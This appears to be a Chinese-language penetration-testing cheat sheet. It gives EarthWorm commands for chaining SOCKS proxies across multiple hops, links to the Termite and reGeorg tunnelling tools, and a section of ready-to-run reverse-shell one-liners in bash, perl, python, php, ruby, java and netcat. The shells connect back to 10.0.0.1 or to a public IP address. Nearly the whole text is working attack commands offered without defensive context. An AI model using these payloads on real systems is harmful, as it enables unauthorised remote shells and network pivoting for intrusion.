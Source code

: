 多级级联
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999
$ ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
```
lcx_tran 的用法
```
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
```
lcx_listen、lcx_slave 的用法
```
$ ./ew -s lcx_listen -l 1080 -e 8888
$ ./ew -s ssocksd -l 9999
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
```
“三级级联”的本地SOCKS测试用例以供参考
```
$ ./ew -s rcsocks -l 1080 -e 8888
$ ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
$ ./ew -s lcx_listen -l 9999 -e 7777
$ ./ew -s rssocks -d 127.0.0.1 -e 7777
```
#### [Termite](https://rootkiter.com/Termite/) 
使用说明:https://rootkiter.com/Termite/README.txt 
#### 代理脚本 
reGeorg :https://github.com/sensepost/reGeorg

### shell反弹 
bash  
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
perl 
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
python 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
php 
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
ruby 
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
java 
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
nc 
```
#使用-e 
nc -e /bin/sh 223.8.200.234 1234 
```